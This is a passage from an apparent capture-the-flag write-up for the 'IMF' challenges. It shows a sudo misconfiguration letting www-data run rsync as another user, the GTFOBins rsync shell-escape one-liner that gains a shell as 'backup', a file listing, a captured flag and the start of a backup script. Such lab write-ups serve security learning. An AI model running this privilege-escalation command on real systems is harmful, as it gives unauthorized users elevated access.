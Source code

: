 Matching Defaults entries for www-data on backup:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User www-data may run the following commands on backup:
    (backup) NOPASSWD: /usr/bin/rsync
```

https://gtfobins.github.io/gtfobins/rsync/

```
www-data@backup:/$ sudo -u backup rsync -e 'sh -c "sh 0<&2 1>&2"' 127.0.0.1:/dev/null
backup@backup:/$ 
```

Then we have a shell as the backup user

```
backup@backup:/backup$ ls -la
total 10140
drwxrwx--- 1 backup backup   4096 May 13 04:42 .
drwxr-xr-x 1 root   root     4096 May 13 04:31 ..
-rwxr-xr-x 1 backup backup    760 May 12 10:16 backup.sh
-rwx------ 1 backup backup     38 May 12 18:17 flag.txt
-rw-r--r-- 1 dave   dave   691271 May 12 10:16 youtrack-1683836642.zip
-rw-rw-r-- 1 dave   dave   865513 May 13 04:32 youtrack-1683952321.zip
-rw-rw-r-- 1 dave   dave   877071 May 13 04:33 youtrack-1683952381.zip
-rw-rw-r-- 1 dave   dave   877071 May 13 04:34 youtrack-1683952441.zip
-rw-rw-r-- 1 dave   dave   877071 May 13 04:35 youtrack-1683952502.zip
-rw-rw-r-- 1 dave   dave   877071 May 13 04:36 youtrack-1683952561.zip
-rw-rw-r-- 1 dave   dave   877071 May 13 04:37 youtrack-1683952622.zip
-rw-rw-r-- 1 dave   dave   877071 May 13 04:38 youtrack-1683952681.zip
-rw-rw-r-- 1 dave   dave   877071 May 13 04:39 youtrack-1683952742.zip
-rw-rw-r-- 1 dave   dave   877071 May 13 04:40 youtrack-1683952801.zip
-rw-rw-r-- 1 dave   dave   877071 May 13 04:41 youtrack-1683952862.zip
-rw-rw-r-- 1 dave   dave   877071 May 13 04:42 youtrack-1683952921.zip
```

We can read the flag for IMF#2 in `/backup/flag.txt` :
```
backup@backup:/backup$ cat flag.txt
Hero{n0t_0nly_hum4ns_c4n_b3_po1s3n3d}
```

# IMF#3: admin:admin [34 solves] [451 points] [First blood 🩸]

There is the `backup.sh` file in /backup
```
cd /backup
mkdir -p youtrack/data/

scp -o StrictHostKeyChecking=no -r dave@dev:/opt/youtrack/conf youtrack/conf &&\
scp -o StrictHostKeyChecking=no -r dave@dev:/opt/youtrack/data/youtrack youtrack/data/youtrack
